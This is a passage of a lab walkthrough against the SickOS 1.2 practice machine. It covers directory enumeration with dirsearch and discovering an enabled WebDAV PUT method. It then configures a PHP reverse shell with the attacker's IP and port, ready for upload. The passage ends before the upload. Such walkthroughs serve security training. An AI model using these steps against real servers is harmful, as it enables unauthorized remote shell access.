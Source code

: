 By running dirsearch it was possible detect only one directory.

```console
root@kali:~$ dirsearch -u http://192.168.179.173/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
...
[16:17:30] 301 -    0B  - /test  ->  http://192.168.179.173/test/
[16:43:10] 403 -  345B  - /%7Echeckout%7E 
```

![](/assets/images/sickos1.2/screenshot-2.png)


After a long enumeration with no results, it occurs to me to check for the http methods.

```console
root@kali:~$ curl -i -X OPTIONS http://192.168.179.173/test/ 
HTTP/1.1 200 OK
DAV: 1,2
MS-Author-Via: DAV
Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
Allow: OPTIONS, GET, HEAD, POST
Content-Length: 0
Date: Tue, 14 Dec 2021 02:23:02 GMT
Server: lighttpd/1.4.28
```

As we can see the PUT verb is available, then we will use it to create a malicious php file on the server.

## Exploitation
### PUT Method

We copy the pentest monkey reverse shell to our current directory, we change the ip addres to ours and the port.

```console
root@kali:~$ cp /usr/share/webshells/php/php-reverse-shell.php rev-shell.php

root@kali:~$ sed -i 's/127.0.0.1/192.168.179.1/;s/1234/443/' rev-shell.php
```
